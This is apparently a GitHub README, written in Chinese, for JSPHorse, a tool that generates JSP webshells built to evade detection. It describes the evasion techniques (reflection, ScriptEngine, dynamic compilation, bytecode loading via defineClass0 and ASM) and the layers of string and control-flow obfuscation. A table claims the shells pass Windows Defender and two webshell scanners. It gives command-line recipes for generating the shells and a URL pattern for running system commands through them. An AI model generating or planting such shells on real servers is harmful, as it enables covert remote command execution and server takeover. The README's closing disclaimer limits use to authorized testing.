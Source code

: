 # JSPHorse

![](https://img.shields.io/badge/build-passing-brightgreen)
![](https://img.shields.io/badge/JavaParser-3.23.1-blue)
![](https://img.shields.io/badge/Java-8-red)

## 简介

一个JSP免杀Webshell生成器，主要支持普通回显Webshell，也实现了蚁剑的免杀

```txt
　　 へ　　　　　／|
　　/＼7　　　 ∠＿/
　 /　│　　 ／　／
　│　Z ＿,＜　／　　 /`ヽ
　│　　　　　ヽ　　 /　　〉
　 Y　　　　　`　 /　　/
　?●　?　●　　??〈　　/
　()　 へ　　　　|　＼〈
　　>? ?_　 ィ　 │ ／／
　 / へ　　 /　?＜| ＼＼
　 ヽ_?　　(_／　 │／／
　　7　　　　　　　|／
　　＞―r￣￣~∠--|
```

主要的免杀技术：

- 基本的Java反射调用免杀
- ScriptEngine调用JS免杀
- Javac动态编译class免杀
- java.beans.Expression免杀
- native方法defineClass0加载字节码免杀
- ASM直接构造恶意字节码并加载执行免杀

代码生成方式：

- 双重随机异或运算加密数字常量
- 凯撒密码随机偏移并结合Base64双重加密字符串常量
- 使用控制流平坦化并随机生成分发器
- 所有标识符全部替换为随机字符串
- 支持全局Unicode编码
- 每次执行都会生成完全不同的马（结构相同内容不同）

简单测试了免杀效果：

| 名称 | 测试结果 |
| :----: | :----: |
| 百度WEBDIR+ | ![](https://img.shields.io/badge/pass-green) |
| 河马SHELLPUB | ![](https://img.shields.io/badge/pass-green) |
| Windows Defender | ![](https://img.shields.io/badge/pass-green) |

## Quick Start

在Github右侧Release页面下载

- 生成标准形式基础Webshell

`java -jar JSPHorse.jar -p your_password`

- 生成蚁剑的免杀Webshell

`java -jar JSPHorse.jar -p your_password --ant`

- 生成Javac动态编译class的Webshell

`java -jar JSPHorse.jar -p your_password --javac`

- 使用ScriptEngine调用JS免杀

`java -jar JSPHorse.jar -p your_password --js`

- 使用Expression免杀

`java -jar JSPHorse.jar -p your_password --expr`

- 使用native方法加载字节码

注意：原理是JVM中注册类，不允许重复，所以这种马只能执行一次命令然后失效。但`JSPHorse`从字节码层面构造不同的类，如果想要多次执行只要重复生成多个马即可

`java -jar JSPHorse.jar -p your_password --proxy`

- 使用JDK自带的ASM构造字节码并加载

注意：原理同上，只能执行一次，但`JSPHorse`每次生产的类名不一致，可以重新生成来做多次执行

`java -jar JSPHorse.jar -p your_password --asm`

- 任何一种方式加入`-u`参数进行Unicode编码（有时候有奇效）

`java -jar JSPHorse.jar -p your_password --expr -u`

- 使用`-o`指定输出文件，默认输出到`result.jsp`

`java -jar JSPHorse.jar -p your_password -o 1.jsp`

- 如何使用

1. 普通情况：`1.jsp?pwd=your_password&cmd=ipconfig`

2. 蚁剑：正常使用

## 感谢

参考三梦师傅的Webshell：https://github.com/threedr3am/JSP-Webshells

参考天下大木头师傅的Webshell：https://github.com/KpLi0rn/Shell

参考su18师傅的`defineClass0`方式：https://github.com/su18

## 免责申明

未经授权许可使用`JSPHorse`攻击目标是非法的

本程序应仅用于授权的安全测试与研究目的


